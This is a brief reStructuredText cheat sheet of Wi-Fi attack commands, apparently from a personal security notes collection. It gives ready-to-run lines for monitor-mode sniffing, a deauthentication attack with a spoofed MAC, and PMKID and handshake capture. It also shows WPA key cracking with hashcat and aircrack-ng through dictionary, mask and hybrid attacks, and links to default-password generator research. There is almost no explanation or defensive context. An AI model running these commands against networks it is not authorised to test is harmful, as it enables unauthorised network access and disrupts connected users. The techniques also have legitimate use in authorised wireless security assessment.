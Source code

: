 ####
Wifi
####

Sniffing
=========

.. code-block:: bash

  airmon-ng start wlp2s0
  airodump-ng -a -c <channel> --essid <ssid> -w mydump wlp2s0mon
  airodump-ng -a -c <channel> --bssid <ap_mac> -w mydump wlp2s0mon

Deauth attack
=============

.. code-block:: bash

  aireplay-ng --deauth 1 -a <ap_mac> -c <client_mac> -h <spoof_src_mac> wlp2s0mon

PMKID attack
============

.. code-block:: bash

  hcxdumptool -o mydump.pcap -i wlp2s0 --enable_status=3
  hcxpcaptool -z test.16800 mydump.pcap

Cracking
========

* hashcat and dictionary attack

.. code-block:: bash

  hcxpcapngtool ~/balle.pcap-01.cap -o test.16800
  hashcat -m 22000 -w 3 test.16800 mydict.txt

* Bruteforce attack

.. code-block:: bash

  hashcat -m 16800 test.16800 -a 3 -w 3 '?l?l?l?l?l?lt!'

* Hybrid wordlist and bruteforce

.. code-block:: bash

  hashcat -m 22000 -w 3 -a 7 -o cracked.txt test.16800 '?d?d?d?d?s' mydict.txt

* Or using aircrack

.. code-block:: bash

  aircrack-ng -w rockyou.txt mydump.pcap

* For possible default password generators
** https://hashcat.net/forum/thread-6170.html
** https://deadcode.me/blog/2016/07/01/UPC-UBEE-EVW3226-WPA2-Reversing.html
